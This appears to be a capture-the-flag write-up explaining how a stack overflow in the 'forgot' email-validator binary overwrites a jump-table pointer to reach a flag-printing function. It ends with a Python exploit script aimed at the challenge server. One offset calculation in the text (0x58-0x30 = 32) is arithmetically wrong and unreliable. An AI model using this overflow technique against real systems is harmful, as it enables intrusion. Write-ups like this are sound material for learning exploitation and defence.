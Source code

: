 Title: forgot
Author: doskop
Date: 2015-04-03 11:36
Tags: CTF


## Introduction

> Fawkes has been playing around with Finite State Automaton lately. While exploring the concept of implementing regular expressions using FSA he thought of implementing an email-address validator.

> Recently, Lua started to annoy Fawkes. To this, Fawkes, challenged Lua to a battle of wits. Fawkes promised to reward Lua, only if she manages to transition to a non-reachable state in the FSA he implemented. The replication can be accessed here.

Not going to spend too much time on this write-up, it's rather simple really.

## Analysis

    $ file forgot
    forgot: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=35930a2d9b048236694e9611073b759e1c88b8c4, stripped
    
    $ readelf -hl forgot|egrep "Type|GNU_STACK"
    Type: EXEC (Executable file)
    Type Offset VirtAddr PhysAddr FileSiz MemSiz Flg Align
    GNU_STACK 0x000000 0x00000000 0x00000000 0x00000 0x00000 RW 0x10

Non executable stack, no symbols. Let's poke it and see what it does.

    $ ./forgot 
    What is your name?
    > CED
    
    Hi CED
    
    
                Finite-State Automaton
    
    I have implemented a robust FSA to validate email addresses
    Throw a string at me and I will let you know if it is a valid email address
    
                    Cheers!
    
    I should give you a pointer perhaps. Here: 8048654
    
    Enter the string to be validate
    > CED
    Dude, you seriously think this is going to work. Where are the fancy @ and [dot], huh?

## Exploitation

Ok, it leaks a pointer to the code segment. That's good fun and all but pretty useless. Let's open it up in a disassembler and browse around for a bit. You'll notice a function that calls system("cat ./flag") at 0x080486cc so that's probably where we want to end up.

Now let's look at the main function. It starts by setting up a jump table at esp+0x30 starting with a function that prints an error message about the email address not containing an '@' symbol. It uses fgets to read your name to esp+0x58 at a maximum of 0x20 characters, that's not very useful. It uses scanf("%s") to read the email address to esp+0x10. We can use that to overwrite the first entry of the jump table at esp+0x30 and jump to the flag reading function.

So, we first write 0x58-0x30 = 32 bytes of A's and then the pointer value of the flag reading function.

    #!/usr/bin/env python
    from pwny import *
    target.assume(ELF('forgot'))
    
    #f = Flow.execute('./forgot')
    f = Flow.connect_tcp('hack.bckdr.in', 8009)
    f.until('\n> ')
    f.writeline('CED')
    f.until('\n> ')
    f.writeline('A' * 32 + P(0x080486cc))
    f.read_eof(echo=True)
